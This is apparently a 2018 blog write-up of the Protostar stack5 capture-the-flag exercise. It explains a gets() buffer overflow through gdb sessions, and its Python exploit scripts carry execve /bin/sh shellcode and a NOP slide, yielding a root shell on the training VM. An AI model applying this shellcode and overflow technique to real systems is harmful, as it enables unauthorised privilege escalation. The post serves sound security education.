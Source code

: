 ```yaml
---
layout: post
title: Protostar Writeup - stack5
updated: 2018-08-07 15:30
tags: [tech, ctf, protostar, binary exploit]
---
```


## Protostar - stack5

This is one of my favorite challenges. We actually get to do something useful here. Our task is to execute shellcode.
Shellcode is nothing but a sequence of bytes, which when executed does some task. Note that this only works if the stack is executable.
This is true for older machines, however newer ones mitigate this vulnerability my making the stack non executable. We don't have to worry much about that.
So here's the code.

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    char buffer[64];
    gets(buffer);
}
{% endhighlight %}

Nothing useful overhere, except the fact that we have an exploitable `gets()` function. So our choice of attack is a buffer overflow. We know from the previous post, that we can overflow into the EIP. Thus controlling the codeflow.
Once we can do that, it's just a matter of redirecting control to our 'injected' shell code. First things first. Let's get the offset of the EIP. I'm using pwntools to generate the offset string.

{% highlight shell %}
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, main (argc=1633771893, argv=0x61616176) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
{% endhighlight %}

Finding "0x61616174" in the offset string we find the location of the EIP at 76 bytes. So our address to our shellcode goes after 76 bytes of padding.
Before we proceed let's take a look at the stack and figure out where to place our shell code.

{% highlight shell %}
$ python -c "print 'A' * 76 + 'ABCD'" > /tmp/exploit
$ gdb stack5
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=0, argv=0xbffff854) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) x/24wx $esp
0xbffff7b0:	0x00000000	0xbffff854	0xbffff85c	0xb7fe1848
0xbffff7c0:	0xbffff810	0xffffffff	0xb7ffeff4	0x08048232
0xbffff7d0:	0x00000001	0xbffff810	0xb7ff0626	0xb7fffab0
0xbffff7e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff7f0:	0xbffff828	0x87ea710a	0xadbd671a	0x00000000
0xbffff800:	0x00000000	0x00000000	0x00000001	0x08048310
{% endhighlight %}
We can probably choose anyone of these addresses, let's try the first one `0xbffff7b0`.
Below is the exploit script code.

{% highlight python %}
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0)
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
    print offset + address + shellcode

go()
{% endhighlight %}

Now let's run this and see what happens.

{% highlight shell %}
$ python /tmp/exploit.py | ./stack5
{% endhighlight %}

Oh oh!. Something's not right, we're getting an illegal instruction error. Let's take a look at it in the debugger.
We find something even more funny here, it works perfectly fine in the debugger.

{% highlight shell %}
$ python /tmp/exploit.py > /tmp/exploit
$ gdb stack5
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=795371626, argv=0x68732f2f) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash

Program exited normally.
{% endhighlight %}

This actually bugged me for quite some time. I found a solution to this in the reddit thread [here](https://www.reddit.com/r/LiveOverflow/comments/8pr5ox/problem_on_protostar_stack5/).
What happens is that when you execute a program, the OS even pushes the environment variables onto the stack.
Now when we run the executable outside gdb, the environment is different, and hence the shellcode gets misaligned.
To counter this we can use something called as a NOP slide. NOP is short for no instruction, which will basically do nothing.
The idea is that you set your EIP to an arbitrary address which you hope will land on the NOP slide.
We place our shellcode after the NOP slide, so when the NOPs are done executing, our shellcode is executed.
There is a little trick to choosing this arbitrary address and length of NOP slides, they should be a multiple of 4, else your shellcode will be misaligned.
This is what is happening to us outside gdb, our shellcode is getting misaligned, so let's fix it.
The below exploit is with a little trial and error, but you should get the idea.

{% highlight python %}
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0 + 16)
nopslide = '\x90' * 32
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
	print offset + address + nopslide + shellcode

go()
{% endhighlight %}

Let's run it:

{% highlight shell %}
$ python /tmp/exploit.py | ./stack5
$
{% endhighlight %}

Ok, so no error this time. This begs the question, how do we use the shell, since it exits as soon as it is created.
The reason is that as the input stream closes the shell also exits. So we need a way to hold the input stream.
After digging around a little I came across this stackoverflow [post](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection).

So using one of those techniques...

{% highlight shell %}
$ (python /tmp/exploit.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}

Owned! We finally managed to get a shell with root privilages. I hope this gives you a taste of privilage escalation. This was by far the most fun exercise I've done. Hope you enjoyed this too :)

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
